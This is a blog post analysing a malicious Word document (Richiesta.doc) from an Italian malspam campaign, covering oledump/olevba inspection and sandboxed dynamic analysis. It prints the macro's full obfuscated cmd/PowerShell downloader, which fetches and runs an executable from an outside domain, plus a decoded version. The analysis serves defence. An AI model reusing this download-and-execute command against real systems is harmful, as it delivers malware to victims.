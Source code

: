 ```yaml
---
layout: post
title: "Analysis of a malicious Word document"
description: "Analysis of a malicious Word document"
date: 2018-02-05
tags: malware
show_social: true
comments: true
---
```


Analysis of a malicious Word document used to deliver malware via a malspam campaign.

<!--more-->

The sample I'm going to analyze is a Microsoft Word document distributed via malspam.

As we will see it acts as a _downloader_ that once executed reaches out to the Internet and downloads its second stage. Unfortunately at the time of this analysis the contacted domain was already dead. Nevertheless I found interesting to complete this analysis.

The sample is named `Richiesta.doc` and its SHA256 hash is `586b7dbe2a700e50a9dda9a9e12bd985e54dc5b1b7a77a61450d638358133d3f`.

It is reported as malicious by VirusTotal (and other online sandboxes), and it's worth noting that there are many different malicious samples of `Richiesta.doc` in th wild each one with a different hash.

I will start playing with the sample on my REMnux lab virtual machine.

Examining the file with the `file` utility confirms it is a Microsoft Word document:

```
remnux@remnux:~/ex$ file Richiesta.doc
Richiesta.doc: Composite Document File V2 Document, Little Endian, Os: Windows,
Version 6.1, Code page: 1251, Template: Normal.dotm, Last Saved By: admin,
Revision Number: 2, Name of Creating Application: Microsoft Office Word,
Create Time/Date: Mon Jan 29 21:20:00 2018, Last Saved Time/Date: Mon Jan 29 21:20:00 2018,
Number of Pages: 1, Number of Words: 0, Number of Characters: 1, Security: 0
```

Let's further examine it with the [Didier Stevens](https://blog.didierstevens.com/) `oledump` tool:

```
remnux@remnux:~/ex$ oledump.py Richiesta.doc
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7427 '1Table'
  5:     60355 'Data'
  6:       496 'Macros/PROJECT'
  7:       122 'Macros/PROJECTwm'
  8: M    8163 'Macros/VBA/ThisDocument'
  9: M   14893 'Macros/VBA/Wct7kKdi5'
 10:      7570 'Macros/VBA/_VBA_PROJECT'
 11:      1786 'Macros/VBA/__SRP_0'
 12:       198 'Macros/VBA/__SRP_1'
 13:       532 'Macros/VBA/__SRP_2'
 14:       156 'Macros/VBA/__SRP_3'
 15:       671 'Macros/VBA/dir'
 16: M    8038 'Macros/VBA/tVQSqmk'
 17: M   19011 'Macros/VBA/yBcakFpM'
 18:      4096 'WordDocument'
```

As expected, those three streams marked with an `M` mean that this Word document contains Macros. I can read the Macros after decompressing the VBA stream with `oledump.py -s 8 -v Richiesta.doc` (where `8` is the number of the stream). Unfortunately the code looks heavily obfuscated.

Using the `olevba` tool (from the [oletools](http://decalage.info/python/oletools) package) doesn't help either.

```
remnux@remnux:~/ex$ olevba Richiesta.doc
```

A couple of interesting keywords contained in the obfuscated code are:
* a function named `Document_Open`: that means that the Macro is run when the Word document is opened;
* a call to `VBA.Shell` : probably the Macro runs an executable file or a system command.

`olevba` does have an option to try deobfuscate the code, but it does not help much in this case.

Anyway I won't care about deobfuscation. Instead I will try to run the malware and observe what it does.

To perform basic dynamic analysis, I'm going to use two virtual machines: one is a Windows 8.1 VM, equipped with malware analysis tools, where I will detonate the malware; the other is the REMnux Lab VM which I will use to direct the network traffic to.

To monitor network activity:

* Set up [ApateDNS](https://www.fireeye.com/services/freeware/apatedns.html) on the Windows VM to intercept any DNS requests and have it reply with the IP address of the REMnux VM.
* Set up [INETsim](http://www.inetsim.org/) on the REMnux VM to simulate Internet services and Wireshark to sniff network traffic.
* I'm going to monitor network traffic with Wireshark on the Windows VM as well.

To monitor system activity on the Windows VM:

* Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) (or [Process Hacker](http://processhacker.sourceforge.net)).
* Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).
* Run [Regshot](https://sourceforge.net/projects/regshot).

I'm letting those programs run and exclude normal activity from Process Monitor. Then, right before installing the malware, I'm taking the first shot with Regshot.

Let's now open the Word document!

Once opened, it shows a common social engineering trick to have the victim enable Macros; it says (in Italian): _This document is for an older version of Word. To visualize its content please click 'Enable' in the yellow bar above..._.

![word](/media/20180205/word.png)

(Btw, the yellow bar with the Enable button is not visible in my screenshot because I took the screenshot after having enabled the Macros.)

As Macros are activated, the malicious code starts performing its actions. It communicates with a remote server to download a file (its second stage) which is saved under a temporary directory and then executed.

The domain contacted is `wijdqwbntuqwebqweqwizxc[.]com` as apparent from the ApateDNS log:

![apatedns](/media/20180205/apatedns.png)

Wireshark shows us the full URL where the second stage is downloaded from:

```
hxxp://wijdqwbntuqwebqweqwizxc[.]com/stata/index.php?rnd=59978
```

![wireshark](/media/20180205/wireshark.png)

It's worth noting that the `User-Agent` string is `15.0`: we'll see shortly that this corresponds to the version of Microsoft Word.

Taking the second shot with RegShot and comparing the results we can easily see that a new file has been created:

```
C:\Users\REM\AppData\Local\Temp\19982.exe
```

In this case the malware could not reach out to the Internet but only to the REMnux VM where INETsim was running; indeed the downloaded file contains the fake HTTP response sent by INETsim.

We can further examine what happened on the system using Process Monitor: we see that the Macros executed a system command `cmd` which in turn called the `powershell` executable to connect to the remote server and download the second stage. In the screenshot below events filtered with Operation equal to any of `Process Start`, `WriteFile` and `TCP Connect` are shown.

![wireshark](/media/20180205/wireshark.png)

The full command line (highlighted in the screenshot) is:

```
cmd /c set _a1=pow&& set _a2=ersh&& set _a3=ell&& call %_a1%%_a2%%_a3% $ULjzHtTrs = 'iRJKbn';$jmVo2G = new-object System.Net.WebClient;$DSTFdKxX1 = 'oth1DC';$LyXjIuhD = (New-Object -ComObject word.application).version;$SQYyU = 'xZeKFX';$jmVo2G.headers['user-agent'] = $LyXjIuhD;$NZVXzNr0 = 'ynMSJ';$LyXjIuhD.close();$mNRwMHq = 'b85KGdV67';$LyXjIuhD.quit;$qdsyJ = 'hXUwA7Vo';$JNcVeBxf = $env:temp + '\19982.exe';$KVRjd8Y = 'G9WjeFT';foreach($mBbRidWu in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')){try{$uV3RLeIz = 'pMP6bKdGA';$jmVo2G.DownloadFile($mBbRidWu.ToString(), $JNcVeBxf);$HfVyAwt = 'D1HxGK8T';Start-Process $JNcVeBxf;$Cv31ashE = 'RLpG0dl2';break;}catch{$LlX4G = 'qIpqLRP3';}$qSK6tDU = 'fMY4dFcJ';}
```

This is somewhat confusing to read... but not so much after a bit of clean up.

Following is a _manually-decoded_ version of the command line just to make it easier to read. I wrote it on different line and replaced the original names of important variables with more meaningful names.

The first line is a call to `cmd /c` to execute the command that follows. The second line sets three environment variables, which are then concatenated on line 5 into the string `powershell` which is the argument of the command `call`.

Following down the lines we see how a `WebClient` object is created (I renamed it to `$connection`); how the Microsoft Word version is read and assigned to the `user-agent` property of the `$connection` object; how the path where the second stage malware is to be saved to is set. The `foreach` loop is where the actual download happens. Note that the loop is executed only one time because of the `break` instruction and regardless of how many `$urls` are obtained from the `Split` operation. Indeed the `Split` and all those other random strings assignments spread over are just garbage to make the code more difficult to read and reverse.

```
cmd /c
set _a1=pow&& set _a2=ersh&& set _a3=ell
&&
call %_a1%%_a2%%_a3%
$ULjzHtTrs = 'iRJKbn';
$connection = new-object System.Net.WebClient;
$DSTFdKxX1 = 'oth1DC';
$word = (New-Object -ComObject word.application).version;
$SQYyU = 'xZeKFX';
$connection.headers['user-agent'] = $word;
$NZVXzNr0 = 'ynMSJ';
$word.close();
$mNRwMHq = 'b85KGdV67';
$word.quit;
$qdsyJ = 'hXUwA7Vo';
$malware = C:\Users\REM\AppData\Local\Temp\19982.exe';
$KVRjd8Y = 'G9WjeFT';
foreach($url in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')) {
    try{
        $uV3RLeIz = 'pMP6bKdGA';
        $connection.DownloadFile($url.ToString(), $malware);
        $HfVyAwt = 'D1HxGK8T';
        Start-Process $malware;
        $Cv31ashE = 'RLpG0dl2';
        break;
    }
    catch{
        $LlX4G = 'qIpqLRP3';
    }
    $qSK6tDU = 'fMY4dFcJ';
}
```

I tried to download the second stage using [Malzilla](http://malzilla.sourceforge.net/) but unfortunately without success: at this time the domain is dead or already taken down.

![virustracker](/media/20180205/virustracker.png)

That's all.
